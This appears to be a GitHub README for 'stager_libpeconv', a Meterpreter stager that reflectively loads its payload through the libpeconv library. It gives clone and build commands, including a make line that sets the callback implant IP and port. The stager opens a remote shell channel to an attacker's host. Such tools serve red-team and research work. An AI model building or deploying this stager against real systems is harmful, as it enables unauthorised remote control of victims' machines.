 # stager_libpeconv
A basic meterpreter protocol stager using the libpeconv library by hasherezade for reflective loading

Don't forget to include submodules (actually libpeconv) while checking out:

```
git clone --recurse-submodules https://github.com/tothi/stager_libpeconv
```

Compiling should work on Linux (with [mingw-w64](https://www.mingw-w64.org/)
cross-compiler toolset installed) using the provided [Makefile](./Makefile)
(config params for make are mandatory):

```
make stager IMPLANT_IP=192.168.56.1 IMPLANT_PORT=8889
```

The stager.exe binary output is built into the [dist](./dist) folder.

